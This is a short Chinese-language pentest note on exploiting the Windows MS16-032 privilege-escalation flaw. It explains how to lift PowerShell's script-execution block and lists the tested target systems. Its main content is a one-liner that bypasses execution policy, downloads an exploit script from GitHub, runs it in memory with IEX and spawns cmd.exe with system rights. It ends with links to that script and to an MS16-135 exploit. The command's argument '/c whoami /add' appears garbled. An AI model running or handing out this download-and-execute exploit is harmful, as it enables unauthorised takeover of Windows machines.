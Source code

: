 MS16-032

可能会遇到问题无法加载文件 ******.ps1，因为在此系统中禁止执行脚本。
执行
set-executionpolicy remotesigned
选择Y即可。
支持机器Win7-Win10 & 2k8-2k12
测试于 x32 Win7, x64 Win8, x64 2k12R2

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c whoami /add'"

https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1



https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Invoke-MS16-135.ps1

